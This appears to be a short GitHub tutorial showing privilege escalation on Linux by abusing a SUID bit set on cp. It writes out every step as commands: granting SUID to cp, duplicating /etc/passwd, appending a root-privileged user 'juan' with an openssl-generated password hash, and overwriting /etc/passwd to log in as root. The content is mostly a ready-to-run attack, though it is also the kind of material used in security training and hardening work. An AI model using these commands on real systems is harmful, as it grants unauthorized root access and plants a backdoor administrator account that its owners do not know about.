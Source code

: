 # Privilege escalation with cp using the SUID bit
## Premise
Let's suppose a developer "*maddev*", as an excuse he needs to update his application, and to speed up the matter he asks to enable the SUID in the ```cp``` command

## Steps

1. We award the SUID to cp
```
sudo chmod u+s $(which cp)
```
![We award the SUID to cp.](./img/Screenshot_20201031_203143.png)

2. The next thing as a maddev user will be to duplicate the ```/etc/passwd``` file for us
```
cat /etc/passwd > ./passwd
```
> We use cat because cp lets us copy, but not edit, so first we extract the content with cat and bring it our own ```passwd```  

![we duplicate with cat](./img/Screenshot_20201101_035423.png)

3. We add to the file a new user "*juan*" with root profile, taking advantage that openssl is installed in all linux distros
```
echo "juan:$(openssl passwd -1 -salt fTTYcf34 juan123):0:0:root:/root:/bin/bash" >> passwd
```
> we do not complicate ourselves with the salt and we make it up

![we created a new user in passwd](./img/Screenshot_20201101_040420.png)

4. We replace with cp the original passwd by ours, we log in as juan and check if we are already root.
```
cp passwd /etc/passwd
```
![Done](./img/Screenshot_20201101_041421.png)
